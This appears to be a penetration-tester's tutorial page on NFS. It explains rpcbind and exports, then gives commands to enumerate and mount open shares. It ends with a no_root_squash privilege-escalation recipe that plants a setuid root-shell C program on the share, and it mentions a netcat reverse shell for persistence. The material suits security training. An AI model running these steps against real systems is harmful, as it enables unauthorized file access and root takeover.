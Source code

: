 # ⭕ NFS

## :ballot\_box\_with\_check: <mark style="color:blue;">Introduction</mark>

network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage. NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it’s not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.

Both Portmapper and RPCbind run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

The client system then contacts rpcbind on the server with a particular RPC program number. The rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service.

Please note that since NFS is an RPC-based service and relies on other RPC services, such as “mountd,” it should be directly queried via the Portmapper service which is found on port TCP and/or UDP 111 when using Nmap NSE scripts for instance.

An administrator wishing to share files from an NFS server will configure what are known as “exports.” Exports are the mechanism used by NFS in order to “export” directories, in other words, make entire directories available to other users over the network. Exports configured for any given NFS server can usually be found in the “/etc/exports” file on a target host locally. For now, we’re going to focus on identifying available exports from a remote perspective. One common issue with NFS, is that oftentimes administrators will configure exports with little attention to security, and will usually “export” directories in a manner that allows any host or IP address to connect, without any authentication, and if we’re lucky, also provide write-access to directories.

## <mark style="color:red;">find directories (shares)</mark>

```
showmount -e [ip]
```

after finding directories we can try to mount them to our system, for example lets say we found a directory shared with which is the home directory of user "bob":

```
mkdir -p /mnt/home/bob
mount -t nfs [NFS Server IP]:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

if we find any directories we can mount the shared directory and access it:

```
mount -t nfs <NFS Server IP>:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

## <mark style="color:red;">port map with rpcinfo</mark>

NFS can be identified by probing port 2049 directly or asking the portmapper for a list of services Portmapper (AKA rpcbind) is another common service found on Linux-based systems and is used to essentially “map” RPC (Open Network Computing Remote Procedure Call or “ONC RPC,” not to be confused with Microsoft’s implementation of RPC) services to their corresponding TCP or UDP ports on a target system.

{% hint style="info" %}
Querying a single port (TCP/111), essentially enumerates all related RPC-related service ports without us having to conduct a port scan against all those ports individually.
{% endhint %}

```
nmap --script rpc-grind,rpcinfo 192.168.13.26 –p 111
rpcinfo -p [ip]
```

#### we can use a “xinetd” RPC-based UDP service combined with a netcat reverse shell, and a “port knocking” method for persistence on a host once we have access.

there are possible privilege escalation methods if NFS service is available to us, refer to [this section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/nfs) under linux privilege escalation.

## <mark style="color:red;">NFS Exported Shares</mark>

List NFS exported shares:

```
showmount -e 192.168.110.102
```

and check if 'rw,no\_root\_squash' is present. If it is present, compile the below sid-shell.c:

```c
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
```

upload it to the share and execute the below to launch sid-shell to spawn a root shell:

```
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```
